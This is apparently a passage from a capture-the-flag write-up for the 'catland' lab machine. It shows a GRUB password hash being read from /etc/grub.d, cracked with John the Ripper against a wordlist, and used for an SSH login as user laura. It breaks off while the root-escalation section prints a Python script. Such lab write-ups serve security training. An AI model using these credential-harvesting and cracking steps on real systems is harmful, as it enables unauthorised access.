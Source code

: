 ### Grub Password

```bash
www-data@catland:/etc/grub.d$ cat 01_password 
#!/bin/sh
set -e
cat << EOF
set superusers="root"
password_pbkdf2 root grub.pbkdf2.sha512.10000.CAEBC99F7ABA2AC4E57FFFD14649554857738C73E8254222A3C2828D2B3A1E12E84EF7BECE42A6CE647058662D55D9619CA2626A60DB99E2B20D48C0A8CE61EB.6E43CABE0BC795DC76072FC7665297B499C2EB1B020B5751EDC40A89668DBC73D9F507517474A31AE5A0B45452DAD9BD77E85AC0EFB796A61148CC450267EBBC
EOF
www-data@catland:/etc/grub.d$ ```

```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "PBKDF2-HMAC-SHA512", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "PBKDF2-HMAC-SHA512", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (PBKDF2-HMAC-SHA512, GRUB2 / OS X 10.8+ [PBKDF2-SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
b*****ov         (?)     
1g 0:00:01:49 DONE (2023-03-01 16:47) 0.009101g/s 272.8p/s 272.8c/s 272.8C/s berbatov..balling
Use the "--show --format=PBKDF2-HMAC-SHA512" options to display all of the cracked passwords reliably
Session completed. 
```

```bash
$ ssh laura@192.168.1.12
laura@192.168.1.12's password: 
Linux catland.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64
Last login: Sat Jan  7 14:44:44 2023 from 192.168.0.29
laura@catland:~$ 
```

## ROOT

```bash
laura@catland:~$ cat /usr/bin/rtv                                                                                                                                  
#!/usr/bin/python3                                                                                                                                                     
# EASY-INSTALL-ENTRY-SCRIPT: 'rtv==1.27.0','console_scripts','rtv'                                                                                                     
import re                                                                                                                                                              
import sys

# for compatibility with easy_install; see #2198
__requires__ = 'rtv==1.27.0'

try:
    from importlib.metadata import distribution
except ImportError:
    try:
        from importlib_metadata import distribution
    except ImportError:
```
